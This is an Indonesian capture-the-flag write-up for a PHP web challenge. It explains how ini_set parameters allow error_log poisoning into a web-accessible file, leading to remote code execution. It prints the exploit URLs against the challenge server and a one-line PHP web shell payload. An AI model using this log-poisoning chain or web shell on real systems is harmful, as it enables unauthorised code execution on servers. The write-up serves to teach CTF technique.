

# love card

> Do you love my notes?


Download [source code](files/love-card-participant.zip)

## Solve

Diberikan sebuah website dan attachment (source code) dari website tersebut, berikut adalah tampilan website


Berikut adalah isi file dari attachment


Untuk melakukan static analysis, kita bisa membuka source code pada index.php, berikut saya lampirkan beberapa code yang cukup menarik



Pada potongan kode pertama, terdapat sebuah parameter `$_GET` yang sepertinya dilapisi oleh blacklist, value yang difilter mirip dengan beberapa payload yang digunakan untuk XSS (Cross-site Scripting), namun karena saya rasa ini adalah rabbithole jadi saya abaikan.

Kemudian terdapat keterangan `REMOTE_ADDR = ‘127.0.0.1’` yang artinya apabila kita mengakses dari localhost kita bisa mengakses system dalam server dengan menambahkan parameter `dev` dan `cmd`, namun menurut saya ini tidak mungkin beberapa forwarded pada header sudah dicoba tapi belum juga berhasil, jadi saya rasa ini adalah rabbithole yang kedua

Kemudian terdapat function `ini_set()`, yang ini memang agak sussy jadi saya mencoba mencari dokumentasi dari [ini_set](https://www.php.net/manual/en/function.ini-set.php)

Setelah saya pahami, intinya ini_set dapat melakukan manipulasi terhadap konfigurasi server dan kita bisa memanfaatkan function ini, kita dapat mencoba nya dengan melakukan list dari [php.ini directive](https://www.php.net/manual/en/ini.list.php)

http://23.94.73.203:9137/?display_errors=1


Lalu di potongan kode kedua sama halnya terdapat parameter yang dimana apabila kita memasukan value terhadap parameter maka value tersebut reflect pada tampilan index website


Dengan memanfaatkan `ini_set()` function, kita bisa melakukan log poisoning dengan `error_log` agar bisa mendapatkan RCE (Remote Code Execution)
berikut adalah payload nya

`http://23.94.73.203:9137/?error_log=/var/www/html/pale.php&name=pale</a>`

Kemudian kita akses `http://23.94.73.203:9137/pale.php`


Error log yang dihasilkan oleh website akan terspawn pada directory yang kita tentukan, selanjutnya kita bisa menginputkan payload untuk melakukan RCE

`<?php system($_GET['a']);?>`


Selanjutnya kita hanya perlu mengambil flag yang ada pada folder root


```
flag{this_is_not_about_love_this_is_about_RCE<3}
```